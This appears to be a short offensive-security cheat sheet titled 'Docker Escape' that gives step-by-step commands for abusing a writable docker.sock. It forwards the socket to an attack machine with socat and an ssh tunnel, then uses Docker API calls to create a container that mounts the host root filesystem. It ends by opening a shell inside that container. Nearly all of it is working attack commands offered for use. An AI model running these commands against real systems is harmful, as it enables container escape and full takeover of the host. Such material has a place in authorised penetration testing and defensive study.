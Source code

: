 # Docker Escape
## Writable docker.sock
- Forward docker.sock to attack machine tcp and sock
```sh
# In container:
# use socat to forward local port to docker socket (can use any other port forward tool)
socat -d -d -d -lf socat.log UNIX-LISTEN:/run/docker.sock,reuseaddr,fork TCP:127.0.0.1:8080

#On attack machine
# forward port 8080 over ssh
ssh -L 8080:localhost:8080 user@ip -p 2222
# use socat to create custom socket
socat -d -d -d -lf socat.log UNIX-LISTEN:./docker.sock,reuseaddr,fork TCP:localhost:8080
```
- List host images:
```bash
curl -XGET http://localhost:8080/images/json
```
- Create a container with host / mounted on /host_root
```bash
curl -XPOST -H "Content-Type: application/json" -d '{"Image":"sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost:8080/containers/create
```
- List containers
```sh
curl -XGET http://localhost:8080/containers/json
```
- Use docker client to get a shell into our new container
```sh
docker -H unix://./docker.sock exec -it jovial_bassi /bin/bash
```